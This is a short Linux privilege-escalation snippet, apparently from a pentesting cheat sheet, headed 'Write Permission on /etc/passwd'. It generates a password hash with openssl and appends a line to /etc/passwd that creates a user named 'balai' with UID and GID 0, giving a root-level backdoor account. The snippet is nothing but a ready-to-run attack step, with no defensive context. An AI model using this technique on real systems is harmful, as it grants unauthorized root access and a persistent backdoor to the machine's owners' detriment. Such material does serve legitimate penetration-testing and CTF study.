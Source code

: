 **Write Permission on /etc/passwd**
```bash
# generate passwd
openssl passwd balai
# Craete a new account name balai with passwd balai
echo 'balai:$1$MitD/YG8$XwmEazlonmgCt5riXXoCh0:0:0:root:/root:/bin/bash' >> /etc/passwd

```
